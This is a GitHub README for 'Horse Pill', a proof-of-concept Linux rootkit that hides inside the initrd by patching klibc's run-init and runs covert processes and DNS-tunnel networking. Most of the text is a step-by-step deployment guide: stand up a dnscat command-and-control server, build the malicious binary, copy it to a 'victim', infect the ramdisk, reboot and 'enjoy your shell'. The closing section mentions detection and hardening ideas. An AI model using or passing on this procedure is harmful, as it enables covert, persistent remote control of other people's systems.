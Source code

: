 # HORSE PILL
Horse Pill is a PoC of a ramdisk based containerizing root kit.  It resides inside the initrd, and prior to the actual init running, it puts it into a mount and pid namespace that allows it to run covert processes and covert storage.  This also allows it run covert networking systems, such as dns tunnels.

# The Moving Parts
There are essentially 3 moving parts here.

## klibc-horsepill.patch
This is patch to klibc, which provides run-init, which on modern Ubuntu systems runs the real init, systemd.  This patches in the rootkit functionality, making a malicious run-init.  This binary has a new section called DNSCMDLINE, which provides the command line options to dnscat, which is bundled within the patch.

## horsepill_setopt
This script takes in command-line arguments and puts them into the section referred to above.

## horsepill_infect
This will takes the file to splat over run-init while assembling ramdisks as a command line argument.  It then calls update-initramfs and splats over the run-init as the ramdisks is being assembled.

# How to Play
1. Set up your dns records for the command and control box as directed by the dnscat2 documentation
1. Get a server on the internet and run the dnscat server on it
    ```
    ruby dnscat.rb --secret=<secret> some.domain.name
    ```
3.  Grab the source for klibc on your attack system.  If apt complains that you don't have source repositories, fix it
    ```
    sudo apt-get build-dep klibc && apt-get source klibc
    ```
4.  build
    ```
    cd klibc-2.xx && quilt import klibc-horsepill.patch && dpkg-buildpackage -j$(nproc) -us -uc
    ```
5. Take that binary and set your options
    ```
    horsepill_setopt path/to/klibc/source/package/usr/kinit/shared/run-init dsncat --secret=<secret> some.domain.name
    ```
6. Copy malicious run-init to victim and horsepill_infect and run
    ```
  horsepill_infect run-init
    ```
7. Reboot victim
8. ???
9. Enjoy your shell
10. Disable on victim by adding "horsepill=0" to kernel command line at boot

# Contributing
Pull requests reviewed and accepted.  Rather than contributing directly to this project, why not contribute to distros and stop them from assembling ramdisks on most systems.  Or contribute to systemd to detect this as a type of containment.  Or perhaps to chrootkit.

# Authors
This was developed by Michael Leibowitz (@r00tkillah)

# License
All parts are licensed BSD.  Klibc is actually dual licensed depending on the part of klibc, but the usr components are BSD licensed.  dnscat2 is also BSD licensed.  Both components have their licenses here as well as klibc-usr-LICENSE.md and danscat2-LICENSE.md.  The combination is covered under the LICENSE.md

# Acknowledgments
Thanks Ron Bowes, the developer of dnscat2 for his fine tool.